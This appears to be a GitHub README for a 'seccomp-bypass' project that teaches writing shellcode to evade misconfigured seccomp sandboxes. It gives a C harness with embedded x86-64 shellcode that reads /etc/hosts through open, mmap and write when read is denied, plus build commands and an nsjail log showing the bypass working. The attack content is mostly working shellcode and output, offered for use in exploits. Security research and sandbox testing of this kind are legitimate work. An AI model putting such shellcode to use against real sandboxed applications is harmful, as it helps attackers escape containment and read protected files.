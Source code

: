 # seccomp-bypass
seccomp is used by applications to restrict system calls it can make, thus sandboxing it. Its goal is to limit the application to only the facilities it needs to perform its job and nothing more.

The goal here is to bypass these seccomp restrictions when exploiting applications. You need shellcode that will carry out its purpose while still adhering to the application's seccomp filter. So if the filter specifies a denial of `read` and `write`, then valid shellcode may use any system call but those.

**Bypasses are possible not because seccomp is flawed, but because sometimes seccomp filters are inappropriately configured. Just like an exploit takes advantage of programming mistakes, these bypasses take advantage of configuration mistakes.**

# Premise
A typical exploit scenario is that you have a vulnerable application into which you can inject shell code. If it's sandboxed, you need to tailor the shellcode to include only the permitted system calls.

The code below is a generated application, contrived purely to run test shellcode from `src/`. The output is a test program that we run to confirm the shellcode's viability when injected into a foreign application.

&gt;: ./gen-shellcode.sh src/read-with-mmap.s
```c
#include <stdint.h>
#include <sys/mman.h>

char shellcode[] = "\x66\x41\xbb\x74\x73\x41\x53\x49\xbb\x2f\x65\x74\x63\x2f\x68"
                   "\x6f\x73\x41\x53\x48\x8d\x3c\x24\x48\x31\xf6\x04\x02\x0f\x05"
                   "\x48\x31\xff\x48\x31\xf6\x66\xbe\xff\xff\x48\x31\xd2\x80\xc2"
                   "\x01\x49\x89\xc0\x4d\x31\xc9\x4d\x31\xd2\x41\x80\xc2\x01\x48"
                   "\x31\xc0\xb0\x09\x0f\x05\x48\x31\xff\xfe\xc2\x48\x89\xc6\x48"
                   "\x31\xd2\x66\xba\xff\xff\x48\x31\xc0\xfe\xc0\x0f\x05\x48\x31"
                   "\xff\xb2\x03\x48\x31\xc0\xb0\x3c\x0f\x05";

int main(){
  mprotect((void *)((uint64_t)shellcode & ~4095), 4096, PROT_READ|PROT_EXEC);
  (*(void(*)()) shellcode)();
  return 0;
}
```
Compile it with: `$gcc -static read-with-mmap.c -o read-with-mmap`

# Examples
Below are examples of shellcodes that perform each section's goal within certain system call constraints. Each goal has one or more shellcodes using a combination of system call combinations to achieve it.

*To follow along, use [Google's nsjail](https://github.com/google/nsjail) to run programs with a specific seccomp policy.*

## Read a file from the filesystem
### Syscalls used: `open`,`exit`,`write`, `mmap`
This example is based on shellcode from `src/read-with-mmap.s`, which reads the `/etc/hosts` file without using read(2). You can see the line `127.0.0.1	localhost` present in the output below, which is a sign the seccomp filter is bypassed successfully.

Try replacing the `read` in the DENY clause with `open`,`exit`,`write`, or `mmap`. Doing so should cause the command to fail because the shellcode in this example uses all four of those calls.

Generate the program:
```bash
f=`tempfile`; ./gen-shellcode.sh src/read-with-mmap.s > $f.c; gcc -static $f.c -o $f
```

Now run it with `nsjail`:
```
>:~/nsjail/nsjail -Mo --chroot / --seccomp_string 'POLICY a { DENY { read } } USE a DEFAULT ALLOW' -- $f
[2017-05-12T16:48:04-0700] Mode: STANDALONE_ONCE
...
[2017-05-12T16:48:04-0700] Executing '/tmp/fileVRncd7' for '[STANDALONE_MODE]'
127.0.0.1	localhost
>:
```

### Syscalls used: `open`, `sendfile`
coming soon
